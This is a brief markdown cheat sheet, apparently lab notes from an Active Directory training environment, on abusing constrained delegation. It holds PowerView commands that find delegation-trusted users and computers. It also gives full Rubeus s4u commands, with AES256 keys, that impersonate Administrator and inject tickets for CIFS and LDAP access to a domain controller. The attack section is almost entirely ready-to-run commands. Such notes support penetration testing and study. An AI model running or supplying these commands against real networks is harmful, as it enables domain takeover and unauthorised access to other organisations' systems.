

# Constrained Delegation


## Index:
  
  1. [Detection](#detection)
  2. [Attack](#attack)



## Detection
Users:
```
Get-DomainUser -TrustedToAuth | select name, msds-allowedtodelegateto
```
Computers:
```
 Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto
```
## Attack
Users:
```
C:\AD\Tools\Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```
computers:
```
C:\AD\Tools\Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
